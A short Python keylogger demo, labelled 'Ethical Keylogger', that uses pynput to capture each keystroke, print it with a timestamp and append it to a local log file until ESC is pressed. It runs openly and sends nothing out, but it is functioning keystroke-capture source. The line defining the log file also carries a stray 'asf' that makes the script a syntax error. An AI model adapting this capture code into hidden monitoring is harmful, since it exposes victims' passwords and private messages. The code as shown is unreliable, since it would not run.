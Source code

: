 from pynput import keyboard
from datetime import datetime
log_file = "keystroke_demo_log.txt"asf
print("Ethical Keylogger Running... (Press ESC to stop)")
print(" Type anything. Keystrokes will appear below:\n")
def on_press(key):
    time_stamp = datetime.now().strftime('%Y-%m-%d %H:%M:%S')
    try:
        key_char = key.char
    except AttributeError:
        key_char = f"[{key}]"
    log_entry = f"{time_stamp} - {key_char}"
    print(log_entry)
    with open(log_file, "a") as f:
        f.write(log_entry + "\n")
def on_release(key):
    if key == keyboard.Key.esc:
        print("\n Keylogger Stopped.")
        return False  # stop listener
with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
